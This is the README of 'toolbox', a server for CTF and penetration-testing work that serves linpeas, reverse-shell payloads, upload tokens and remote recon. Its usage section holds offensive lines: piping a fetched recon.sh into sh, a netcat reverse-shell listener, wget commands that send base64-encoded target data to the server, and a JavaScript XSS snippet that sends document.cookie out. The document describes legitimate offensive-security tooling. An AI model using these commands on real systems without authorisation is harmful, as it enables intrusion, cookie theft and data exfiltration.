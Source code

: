 # toolbox https://github.com/AlanFoster/toolbox

Currently toolbox provides functionality similar to `python3 -m http.server`, it will:

- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

## Installing

```
git clone https://github.com/AlanFoster/toolbox.git
```

Install the dependencies:
```
cd toolbox
git submodule update --init --recursive
pip3 install -r requirements.txt
```

Verify it works:

```
python3 toolbox.py --help
```

## Using Docker


Build the image:

```
docker build -t toolbox .
```

Example usage:

```
docker run -it --rm -p 8000:8000 toolbox /bin/sh -c "python toolbox.py serve -p 8000 ."
```

## Running

### Server

The server will:
- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

Usage:

```
python3 toolbox.py serve -p 8000 .
```

You can now visit the running server at `http://localhost:8000`

![Example of the running server](./images/server.png)

By default the server supports the following files:

- [Payloads](toolbox/server/templates/modules)
- [Common tools](toolbox/config.json)

### Workflows

#### Generating payloads

The home page will show all available payloads and can be accessed on the target machine.

For example using `shell.sh`:

- `/shells/shell.sh` - running on default host/port 127.0.0.1 4444
- `/shells/shell.sh/4444` - custom port
- `/shells/shell.sh/127.0.0.1/4444` - custom host and port

On the host machine you create a listener as normal:

```
rlwrap nc -lnvp 4444
```

#### Uploading files

If you wish to upload files to your host machine from a target you can generate temporary one time upload tokens. Note that this functionality requires that the server be started with a secure `--password` flag, otherwise it is disabled from the interface:

```
python3 toolbox.py serve -p 8000 --password 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824 .
```

When the browser prompts for authentication only the password is required:

![Upload file name](./images/upload_file.png)
![Upload file token authentication](./images/upload_file_token_authentication.png)
![Upload file token](./images/upload_file_token.png)

After running the generated command on the target machine the file will be accessible on the host machine. Note that this token will be invalidated after use, and cannot be reused:

![Upload file command on target](./images/upload_file_target.png)

#### Remote target recon

The `recon.sh` script is great for use in the scenario of having initial remote code execution and you want to upgrade to a working shell. This script will log information about the remote target which you can then use to select the best reverse shell payload.

First run the `recon.sh` script on the target machine with either `curl` or `wget`:

```
curl http://localhost:8000/shells/recon.sh | sh
wget http://localhost:8000/shells/recon.sh -O- | sh
```

The server console will now log information about the remote target. In the below scenario we can see that the target is running as `root`, and has both `nc` and `python3` available - which is enough information to decide on a reverse shell payload:

![Example of the extracting data from the target](./images/recon.png)

Note that this remote logging functionality is implemented by making HTTP requests to the server with a base path of `/debug`. The `value` query string parameter will additionally be base64 decoded and highlighted in green. This means you can easily extract arbitrary information from the host machine, examples:

```bash
wget "http://localhost:8000/debug/"
wget "http://localhost:8000/debug/hello_world"
wget "http://localhost:8000/debug/tools/python/?value=$(python --version 2>&1 | base64 | tr -d \\n | sed -e 's/+/%2B/' -e 's#/#%2F#')" -O /dev/null
```

The `/debug` endpoint can be great for validating XSS payloads too. For instance within JavaScript you could use the following to track important parts of your XSS payload:

```javascript
fetch("http://server_ip:8000/debug/xss_code_started");
fetch(`http://server_ip:8000/debug/extracted_cookies?value=${encodeURI(btoa(document.cookie))}`);
```

## Contributing

### Updating requirements.txt

Updating `pipenv` currently requires a manual change to `requirements.txt`.
This file will not contain dev-dependencies and is meant for end-users.

```
pipenv lock -r > requirements.txt
```

### Adding additional tools

You can add additional third party projects by creating a new Git submodule:

```
git submodule add https://github.com/owner/project_name third_party/project_name
```

And updating the associated [configuration file](toolbox/config.json) to include the new tool.

### Running tests

You must first install the developer dependencies:

```shell
pipenv install --dev
```

Enter a Python environment:

```shell
pipenv shell
```

Running all tests:

```shell
pytest
```

To run only one set of tests add the focus marker:

```python
@pytest.mark.focus
def test_some_method():
    assert 1 == 1
```

Run with:

```shell
pytest -m focus
```

To enter an interactive debugging environment place either of the two lines into your code:

```python
breakpoint()
import pdb; pdb.set_trace()
```

Updating third party dependencies:

```
git submodule update --remote
```

## Planned

- Configure setup.py to install only the required source code + data files + licenses
- Automated github actions to ensure the latest third party libraries are downloaded
- Potentially add exploits with configurable payloads
- Shell listener support, instead of `rlwrap nc`
- Generate one time upload tokens from the command line directly, with/without the server running
- Add additional files:
  - Static pspy64
  - Static Docker client
